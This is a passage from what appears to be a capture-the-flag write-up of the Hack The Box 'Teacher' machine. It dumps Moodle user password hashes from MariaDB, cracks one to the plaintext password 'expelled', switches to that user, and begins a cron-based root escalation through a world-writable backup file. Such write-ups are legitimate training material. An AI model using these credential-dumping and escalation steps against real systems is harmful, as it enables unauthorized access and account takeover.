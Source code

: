 ```console
+--------------------+
| information_schema |
| moodle             |
| mysql              |
| performance_schema |
| phpmyadmin         |
+--------------------+
5 rows in set (0.01 sec)
```

Then, within `moodle` database --> `mdl_user` table, we can find MD5 password hash for `giovannibak`: `7a860966115182402ed06375cf0a22af`. 

```console
MariaDB [moodle]> select username, password from mdl_user;
+-------------+--------------------------------------------------------------+
| username    | password                                                     |
+-------------+--------------------------------------------------------------+
| guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
| admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
| giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
| Giovannibak | 7a860966115182402ed06375cf0a22af                             |
+-------------+--------------------------------------------------------------+
4 rows in set (0.00 sec)
```

Using an online decryptor, we can recover the has in plain-text as `expelled`.

![image](/assets/img/post/htb/teacher/19.png)

<b>user.txt</b>

```console
www-data@teacher:/var/www/html/moodle$ su -l giovanni
Password: 
giovanni@teacher:~$ id    
uid=1000(giovanni) gid=1000(giovanni) groups=1000(giovanni)
giovanni@teacher:~$ cat user.txt 
fa9a ***REDACTED*** 8fa7
```

## giovanni --> root (cronjob)

Within the `gianvanni`'s home directory, there is a `/work` folder. We can see that `backup_course.tar.gz` is continuously being updated assuming there is some type of cronjob updating that file. 

```console
giovanni@teacher:~/work$ ls -lR
.:
total 8
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 courses
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 tmp

./courses:
total 4
drwxr-xr-x 2 root root 4096 Jun 27  2018 algebra

./courses/algebra:
total 4
-rw-r--r-- 1 giovanni giovanni 109 Jun 27  2018 answersAlgebra

./tmp:
total 8
-rwxrwxrwx 1 root root  256 Nov 23 04:50 backup_courses.tar.gz    <----
drwxrwxrwx 3 root root 4096 Jun 27  2018 courses

```